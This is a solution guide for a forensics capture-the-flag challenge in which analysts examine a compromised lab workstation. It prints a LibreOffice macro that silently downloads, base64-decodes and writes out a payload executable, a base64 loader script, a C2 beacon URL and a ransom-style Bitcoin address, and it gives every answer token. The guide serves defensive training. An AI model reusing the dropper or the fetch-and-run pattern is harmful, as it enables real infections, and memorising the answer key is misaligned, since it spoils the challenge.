

# I Spy: A Digital Intruder

*Solution Guide*

## Overview

In *I Spy: A Digital Intruder*, your company's network has been compromised. You have been asked to analyze one of the local user workstations to identify potentially malicious software and suspicious documents.

There are four (4) tokens to retrieve in this challenge.

*I Spy: A Digital Intruder* is a variant-style challenge. Challengers will be presented with one of four possible variants. All of the steps to complete the challenge will be the same across all variants, but the answers will be selected from one of four possible values.

For your convenience, we've repeated some of the challenge instructions here in the challenge solution guide.

Start by logging into the `kali-user-ispy` VM and use the provided tools to explore and analyze the compromised host. `AvaloniaILSpy` and `zbar-tools` have been installed on the `kali-user-ispy` VM.

Finally, if you use Security Onion for creating PCAP files, make sure to enter `securityonion` in the `Sensor ID` field. Log into Security Onion at `10.4.4.4` through a browser or SSH. The Security Onion machine may take a few minutes to become available--**please be patient!**

## Question 1

*What is the md5 hash of the fschecker file?*

1. Login to the compromised host machine, `compromised-host-ispy`, with the following credentials:

- Username: `user`
- Password: `tartans`

2. The `fschecker` file is not available on the machine just yet. Let's begin our analysis of the machine.

3. Begin by listing the services using the following command:

```bash
systemctl list-units --type=service
```


Scrolling down and examining the services brings you to a service named `sysntwrk.service`. This is not a well know service name, so it seems a little suspicious.


4. Let's look at the service details using the following commands:

```bash
cd /etc/systemd/system/
cat sysntwrk.service
```


5. The `sysntwrk.service` file references a Python script named `networksvcs.py`. Let's open that file for further examination:

```bash
cat /bin/networksvcs.py
```


6. We can see that the Python script attempts to download a text file from a web server, base64 decode it, then execute the contents of the script. Open a web browser and download the text file referenced by the Python script.


7. Let's use the `base64 -d ` command to decode the contents of the file:

```bash
echo -n "ZnJvbSBwYXRobGliIGltcG9ydCBQYXRoCmltcG9ydCBzdWJwcm9jZXNzCmltcG9ydCByZXF1ZXN0
cwppbXBvcnQgYmFzZTY0CiAgICAKZmlsZVBhdGggPSAiL2hvbWUvdXNlci8ubG9jYWwvZnNjaGVj
a2VyIgpmaWxlID0gUGF0aChmaWxlUGF0aCkKCmlmIGZpbGUuaXNfZmlsZSgpOgogICAgYXJncyA9
IChmaWxlUGF0aCkKICAgIHByb2Nlc3MgPSBzdWJwcm9jZXNzLlBvcGVuKGFyZ3MsIHN0ZG91dD1z
dWJwcm9jZXNzLlBJUEUpCiAgICBwcm9jZXNzLndhaXQoKQogICAgb3V0cHV0ID0gcHJvY2Vzcy5z
dGRvdXQucmVhZCgpCiAgICBwcmludChvdXRwdXQpCgoK" | base64 -d
```


8. Here we can see that the script is looking for `fschecker` in the `/home/user/.local` directory. Navigate to this directory and examine it.

```bash
cd /home/user/.local/
ls -la
```


9. Unfortunately, we don't see the `fschecker` file, but we now know that there is a suspicious service that is looking for it in the `/home/user/.local/` directory.

10. Continue your analysis of the machine by opening the `/home/user/Documents` directory.


11. Open the **Budget Proposal.odt** document with Libre Office Writer.


12. While nothing out of the ordinary appears to be happening, a macro that is contained in this document automatically executes when the document is opened.

13. Let's take a look at the macro in Libre Office Writer by selecting **Tools** > **Macros** > **Edit Macros** from the menu.


14. Examination of the code leads you to a method named `Dropper` starting on line 201 of the Macros file.



```text
Sub Dropper
	Dim url As String
	url = "http://123.45.67.201/g48fschck00/fschecker.txt"
	Dim response As String
	response = GetWebContent(url)
	fileName = "/home/user/Documents/fscheckerenc"
	oSFA = CreateUnoService("com.sun.star.ucb.SimpleFileAccess")
	If oSFA.exists(fileName) Then oSFA.kill(fileName)
	oTextoutputStream = CreateUnoService("com.sun.star.io.TextOutputStream")
	outputStream = oSFA.openFileWrite(fileName)
	oTextoutputStream.setOutputStream(outputStream)
	oTextoutputStream.writeString(response)
	oTextoutputStream.closeOutput()
	Shell "bash -c 'base64 -d /home/user/Documents/fscheckerenc > /home/user/.local/fschecker'"
	Shell "bash -c 'rm /home/user/Documents/fscheckerenc'"
End Sub
```

15. We can see that this method will download a text file, base64 decode it, and write the `fschecker` file to `/home/user/.local/`.

16. Let's examine the `fschecker` file.

```bash
cd /home/user/.local
ls -la
file fschecker
```

We can see that `fschecker` is a 64-bit executable file.


17. Run the following command to get the `md5sum` of the `fschecker` file:

```bash
md5sum fschecker
```


The correct submission for Question 1 is: `c8f239114deebf9f4f48678abb737e71`. Recall, this is a variant-style challenge and the answer to your question will vary for your challenge instance.

## Question 2

*What is the value of the network beacon being transmitted by `fschecker` on the compromised host?*

1. Login to the compromised host machine, `compromised-host-ispy`, with the following credentials:

- Username: `user`
- Password: `tartans`

2. Start by downloading the `fschecker` executable to the`compromised-host-ispy` machine.

3. Open the `/home/user/Documents` directory.


4. Open the **Budget Proposal.odt** document with Libre Office Writer.


5. While nothing out of the ordinary appears to be happening, a macro that is contained in this document automatically executes when the document is opened. The macro downloads and writes the `fschecker` file to `/home/user/.local/`.

6. Let's examine the `fschecker` file.

```bash
cd /home/user/.local
ls -la
file fschecker
```

We can see that `fschecker` is a 64-bit executable file.


7. In order to run the file, we need to give it executable permission with the following command:

```bash
chmod +x fschecker
```


8. We know we are looking for network traffic, so start Wireshark before running `fschecker`.


9. Make sure to capture traffic on the `eth0` network interface.


10. Run the `fschecker` executable.

```bash
./fschecker
```


11. After it finishes running, stop the Wireshark packet capture.

12. Let's examine the packet capture data. Click **Statistics** > **Conversations**. Select the **IPV4** tab.


13. We can see that the machine is communicating with two IP addresses. We know that `10.5.5.5` is the challenge server so we ignore that for now. Filter for the destination address of `123.45.67.201` which is also the IP address of the server where `fschecker` was downloaded from.

```text
ip.dst == 123.45.67.201
```


14. After filtering the data, we can begin examining the traffic. You will eventually see an HTTP call with a querystring named `beacon`.

```text
http://123.45.67.201/?beacon=rd64hu80
```


15. The value of the `beacon` querystring is `rd64hu80`, which is the value you are searching for.

The correct submission for Question 2 is: `rd64hu80`. Recall, this is a variant-style question and the token will vary for your challenge instance.

## Question 3

*What is the embedded passphrase used by the chk2.dll?*

1. Follow steps 1 - 10 from Question 2 to download and run the `fschecker` executable on the `compromised-host-ispy` machine.

2. Running the `fschecker` file will create a `modules` directory in the `/home/user/.local/` directory. Navigate to the `modules` directory and view the contents. You will see **chk2.dll**, which is the file we need to examine.


3. In order to analyze the `chk2.dll` file, we need to move it to the `kali-user-ispy` machine.

4. Login to `kali-user-ispy` with the following credentials:

- Username: `user`
- Password: `tartans`

5. Get the IP address with the following command:

```bash
ip a
```

6. Move the image to the `kali-user-ispy` machine, making sure to use the IP address you obtained in the previous step:

```bash
scp chk2.dll user@10.5.5.136:/home/user/Documents
```

Enter `tartans` for the password when you are prompted.


7. Login to the `kali-user-ispy` machine and double-click the **ILSpy** shortcut on the Desktop.


8. Select **File** > **Open** from the ILSpy menu, select the `chk2.dll` file, and click **OK**.


9. Using the menu on the left, expand the **chk2**  > **chk2** > **Class1** tree, then expand the **Run** method.


10. Here you will see the code that references the *passphrase* argument used to encrypt documents. This code references a variable named `text`.


11. If you look near the top of the **Run** method, you will see the value of the `text` variable that is passed as the value to the passphrase argument.

```text
string text = "aRd5T430bP2wx810";
```


12. The `aRd5T430bP2wx810` value is the answer to Question 3.

The correct submission for Question 3 is: `aRd5T430bP2wx810`. Recall, this is a variant-style question and the token will vary for your challenge instance.

## Question 4

*What is the Bitcoin address located in the remote file that is referenced in one of the documents?*

1. Login to the compromised host machine, `compromised-host-ispy`, with the following credentials:

- Username: `user`
- Password: `tartans`

2. Open the **Q1 Sales Data.ods** file located in the `/home/user/Documents` directory.


3. Open **Sheet5**. Sheet5 reveals two images.


4. Right-click each image and save to `/home/user/Documents`.


5. Use **ExifTool** to analyze the Bitcoin image.

```bash
exiftool bc.jpg
```

6. You should see the following `Text` attribute:

```text
Text: Bitcoin address file path: uRt01dbNrt/bcaddress.txt
```


7. Analyzing the QR Code image with **ExifTool** does not produce any interesting results so let's move the image to the `kali-user-ispy` machine.

8. Login to `kali-user-ispy`with the following credentials:

- Username: `user`
- Password: `tartans`

9. Get the IP address using the following command:

```bash
ip a
```


9. Move the image to the `kali-user-ispy` machine, making sure to use the IP address you obtained in the previous step:

```bash
scp qr.png user@10.5.5.88:/home/user/Documents
```

Enter `tartans` for the password when you are prompted.


10. On the `kali-user-ispy` machine, run the following commands from the terminal:

```bash
cd /home/user/Documents/
zbarimg -q --raw qr.png
```

11. Review the results which show the base path.

```text
Bitcoin address base path: http://123.45.67.201/
```


12. Combine the two paths and enter the URL into a browser.

```text
http://123.45.67.201/uRt01dbNrt/bcaddress.txt
```

13. The Bitcoin address is now visible in the web browser.

```text
Bitcoin address: mhwSdoqCnRoe5CawwH4PX6G7ex7MmsBCsk
```


The correct submission for Question 4 is: `mhwSdoqCnRoe5CawwH4PX6G7ex7MmsBCsk`. Recall, this is a variant-style question and the token will vary for your challenge instance.